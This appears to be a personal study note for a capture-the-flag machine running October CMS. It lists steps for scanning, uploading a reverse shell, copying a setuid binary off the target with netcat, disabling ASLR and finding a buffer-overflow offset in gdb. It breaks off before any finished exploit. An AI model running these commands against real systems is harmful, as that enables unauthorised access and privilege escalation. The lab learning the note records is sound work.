 nmap -sV -sC -oA nmap &lt;host&gt;

searchsploit october

search vulnerabilities based on the version of the system

* is it outdated?
* what is the version that has vulnerabilities
* download 2 versions of the application \(cms\)

* find the files that have been updated

* compare their hashes

* try to access the README.md to see the changelogs

* remove the unnecessary files

exploit

* upload the reverse-shell script
* when accessed the shell

  * find / -perm -4000 2&gt;/dev/null \(search set-uid files\)
  * 

* get files from the remote server

  * nc -l -p 999 &gt; ovrflw \(local\)
  * nc -w 5 10.10.12.194  999 &lt; /usr/local/bin/ovrflw \(remote\)
  * check for md5

* python -m SimpleHTTPServer

* Run ubuntu with the same version of the target

  * wget 172.16.10.105:8000/ovrflw
  * mv ovrflw Desktop
  * chmod +x ovrflw
  * ``./ovrflw `python -c 'print "A"*200'` #this will trigger a segmentation fault because of buffer overflow``

* `cat ~/.gdbinit` \(this will check if you have `source ~/peda/peda.py`\)

* gdb ./ovrflw

* b main \(breakpoint on main\)

* r \(run\)

* ```r``python -c 'print "A"\*200'\`\`\` \(buffer overflow\)

* c \(continue\)

* you will see an error after `c`

* `python -c 'print "\x41"' (will print A)`

* checksec

* nc -lvnp 888 \(port set on the reverse shell script\)

* stty raw -echo

* nc -lvnp 888

* cd /usr/local/bin

* ldd ovrflw \|grep libc

Check if the ASLR is enabled in the HOST \(VM\)

* ldd ovrflw \|grep libc

Disable ASLR

* `echo 0 > /proc/sys/kernel/randomize(underscore)va_space #root`
* `ldd ovrflw |grep libc #check if the hex is not changing`

Identify where the buffer overflow occurs

* locate pattern\_

* `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -h #shows usage`

* `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200 #generate unique strings/ pattern that doesn't repeat`

* go to ubuntu

* gdb ./ovrflw

* r &lt;paste generated unique patterns/strings&gt;

* copy the mem address

* go back to kali box

* use pattern\_offset.rb

* pattern\_offset.rb -q &lt;mem address without 0x&gt;

* will output p \[\*\] Exact match at offset 112

  * this means at exactly 112 bytes, you can override EIP here

  * 



